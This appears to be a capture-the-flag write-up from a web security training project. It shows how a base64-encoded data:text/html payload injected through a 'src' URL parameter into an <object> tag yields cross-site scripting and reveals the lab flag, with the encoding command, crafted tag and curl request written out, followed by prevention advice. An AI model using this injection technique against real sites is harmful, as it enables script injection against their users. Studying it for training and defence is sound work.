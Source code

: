 # Description

If we look closely in the home page there is only one image that is a link, the picture of the nsa.

Once we click we got ridrected to `/?page=media&src=nsa`

Inspecting the page we see that the image is displayed not by a <img> but by a <object> tag :
<object data="http://10.14.59.83/images/nsa_prism.jpg"></object>

I noticed that the field src control what the data on the object tag.

So our goal is the change the data displayed by object.

# Attack

We will try to inject javascript throught objet data by using base64 data type.

```bash
*[main][~/projects/darkly]$ echo -n "<script>alert(1)</script>" | base64
PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
*[main][~/projects/darkly]$ 
```
It would look like this when we send the GET request to server
```html
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

Now we put in the data section then we send it
```bash
*[main][~/projects/darkly]$ curl "http://10.14.59.83/?page=media&src='data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='"|grep flag   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2123    0  2123    0     0  2843k      0 --:--:-- --:--:-- --:--:-- 2073k
<center><h2 style="margin-top:50px;"> The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center><table style="margin-top:-68px;"></table>	</div>
*[main][~/projects/darkly]$ 
```

# Preventions:

- *Input Validation:** Always validate and sanitize user inputs, especially those used to construct URLs or interact with external resources. Ensure inputs adhere to expected formats and content.

- **Whitelist Allowed Sources:** Maintain a list of trusted sources or URLs that your application can access. Validate incoming requests against this list to prevent unauthorized access to external resources.

- **User Data Handling:** Never use user-provided data directly in URLs or attributes. Generate URL values on the server-side using validated and safe data to prevent manipulation.
